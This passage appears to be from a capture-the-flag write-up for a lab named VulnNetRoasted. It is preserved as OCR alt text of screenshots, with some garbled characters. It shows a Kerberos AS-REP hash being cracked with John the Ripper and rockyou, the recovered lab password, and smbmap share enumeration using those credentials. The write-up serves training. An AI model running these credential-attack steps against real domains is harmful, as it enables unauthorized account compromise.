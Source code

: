 <img src="VulnNetRoasted/media/image11.png"
style="width:4.91667in;height:1.2in"
alt="kaliS kali —/Downloads] sudo john --word list=/usr/share/wordlists/rockyou . txt hahs [sudo] password for kali: Using default input encoding: UTF-8 Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHAI A Will run 4 OpenMP threads press &#39;q&#39; or Ctrl-C to abort, almost any other key for status ( $krb5asrep$23$t-skidöVULNNET-RST. LOCAL) tj072889* lg DONE (2022-06-19 07:51) ø.2409g/s 765902p/s 765902C/s 765902C/s tj3929 tjø216044 &quot;—show&quot; option to display all of the cracked passwords reliably Use the Session completed. " />

tj072889\*

<img src="VulnNetRoasted/media/image12.png"
style="width:4.825in;height:1.19167in"
alt="kaliS kali [—/Down10ads] smbmap -H t-skid tjØ72889* 10.10.33.13 -u [+] IP: 10.10.33.13:445 Name: vulnnet-rst.local Disk ADMIN$ c$ IPC$ NETLOGON SYSVOL VulnNet-Business-Anonymous VulnNet-Enterprise-Anonymous permissions NO ACCESS NO ACCESS READ READ READ READ READ ONLY ONLY ONLY ONLY ONLY commen t Remote Admin Default share Remote IPC Logon server share Logon server share VulnNet Business Sharing VulnNet Enterprise Sharing " />
